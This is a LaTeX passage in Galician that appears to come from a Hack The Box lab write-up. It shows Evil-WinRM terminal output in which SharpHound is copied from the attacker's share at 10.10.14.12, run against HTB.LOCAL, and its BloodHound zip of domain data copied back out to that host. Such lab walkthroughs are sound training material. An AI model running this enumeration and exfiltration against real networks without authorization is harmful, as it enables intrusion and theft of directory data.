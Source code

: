 \documentclass[a4paper]{article}
\begin{document}
Non vemos nada de interese, entón probamos con sharphound.

\subsection{Enumeración LDAP con credenciais: sharphound}
Imos estudar o directorio ldap mediante \textbf{sharphound}:
        \begin{lstlisting}[language=Bash, caption=sharphound, linewidth=18.4cm]
*Evil-WinRM* PS C:\windows\temp\temp> copy //10.10.14.12/TMP/SharpHound.exe SharpHound.exe
*Evil-WinRM* PS C:\windows\temp\temp> dir


    Directory: C:\windows\temp\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/11/2022   1:56 PM         906752 SharpHound.exe
-a----        5/31/2022   8:27 PM        1936384 winPEASx64.exe


*Evil-WinRM* PS C:\windows\temp\temp> . .\SharpHound.exe
2022-07-19T06:52:55.3727300-04:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, 
ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-07-19T06:52:55.3727300-04:00|INFORMATION|Initializing SharpHound at 6:52 AM on 7/19/2022
2022-07-19T06:52:55.7008570-04:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, 
RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-07-19T06:52:55.9196035-04:00|INFORMATION|Beginning LDAP search for HTB.LOCAL
2022-07-19T06:52:55.9664872-04:00|INFORMATION|Producer has finished, closing LDAP channel
2022-07-19T06:52:55.9664872-04:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-07-19T06:53:25.9665600-04:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 35 MB RAM
2022-07-19T06:53:40.2165680-04:00|INFORMATION|Consumers finished, closing output channel
2022-07-19T06:53:40.2634463-04:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2022-07-19T06:53:40.8572027-04:00|INFORMATION|Status: 94 objects finished (+94 2.136364)/s -- Using 56 MB RAM
2022-07-19T06:53:40.8572027-04:00|INFORMATION|Enumeration finished in 00:00:44.9479589
2022-07-19T06:53:41.0449091-04:00|INFORMATION|SharpHound Enumeration Completed at 6:53 AM on 7/19/2022! Happy Graphing!
*Evil-WinRM* PS C:\windows\temp\temp> dir


    Directory: C:\windows\temp\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/19/2022   6:53 AM          10960 20220719065340_BloodHound.zip
-a----        7/19/2022   6:53 AM           8127 MjA1NTZjODAtYTQzYS00OWY1LWFiOTAtMjFmYTQ1MmY1YTU4.bin
-a----        6/11/2022   1:56 PM         906752 SharpHound.exe
-a----        5/31/2022   8:27 PM        1936384 winPEASx64.exe


*Evil-WinRM* PS C:\windows\temp\temp> copy 20220719065340_BloodHound.zip //10.10.14.12/TMP/20220719065340_BloodHound.zip\end{lstlisting}
\end{document}
